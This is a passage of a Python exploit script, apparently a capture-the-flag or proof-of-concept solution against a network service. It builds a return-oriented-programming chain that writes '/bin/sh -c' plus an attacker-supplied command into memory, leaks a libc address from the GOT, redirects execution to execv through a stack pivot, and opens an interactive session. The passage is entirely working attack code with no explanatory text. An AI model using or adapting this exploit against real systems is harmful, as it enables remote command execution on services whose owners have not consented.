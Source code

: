 def arb_write_rax(p):
    rop = rbp(p+8)
    rop+= p64(0x400fd3)
    rop+= "\x00"*(0x260+8)
    return rop

def align(r):
    if (len(r)-536)%16:
        return r+ret()
    else:
        return r

def exploit(r):
    global extra

    cmd = sys.argv[2]
    mini_rop = rdi(0x602000)
    mini_rop+= rsi(0x602050)
    
    # Write strings
    rop = "GET ".ljust(536, '\x00')
    rop = align(rop)
    rop+= arb_write(0x602000, 
            "/bin/sh\x00-c\x00{}".format(cmd).ljust(0x50, '\x00')+
            p64(0x602000)+
            p64(0x602000+len("/bin/sh\x00"))+
            p64(0x602000+len("/bin/sh\x00-c\x00"))+
            p64(0)
    )
    rop = align(rop)
    rop+= arb_write(0x602f00, mini_rop)

    # Copy libc ptr from got
    rop+= arb_read_rax(e.got["__libc_start_main"])
    rop+= arb_write_rax(0x602f00+len(mini_rop))

    # subtract dword
    """
    0x0000000000400888 : add dword ptr [rbp - 0x3d], ebx ; nop dword ptr [rax + rax] ; ret                     
    0x00000000004010ca: pop rbx; pop rbp; pop r12; pop r13; pop r14; pop r15; ret;                    
    """
    rop+= p64(0x4010ca)
    rop+= p64(libc.symbols["execv"]-libc.symbols["__libc_start_main"])
    rop+= p64(0x602f00+0x3d+len(mini_rop))
    rop+= p64(0)*4
    rop+= p64(0x400888)

    # pivot
    """
    0x00000000004010cd: pop rsp; pop r13; pop r14; pop r15; ret;                             
    """
    rop+= p64(0x4010cd)
    rop+= p64(0x602f00-8*3)

    rop+= extra
    sleep(0.1)
    print(len(rop))
    r.sendline(rop)

    r.interactive()
    return